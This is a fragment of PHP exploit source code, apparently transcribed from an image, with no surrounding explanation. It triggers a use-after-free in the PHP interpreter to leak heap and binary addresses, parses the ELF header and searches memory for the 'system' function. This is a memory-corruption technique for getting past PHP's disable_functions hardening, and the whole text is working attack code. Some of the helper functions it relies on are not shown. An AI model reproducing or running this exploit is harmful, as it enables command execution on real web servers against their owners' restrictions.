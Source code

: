 ```php

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
```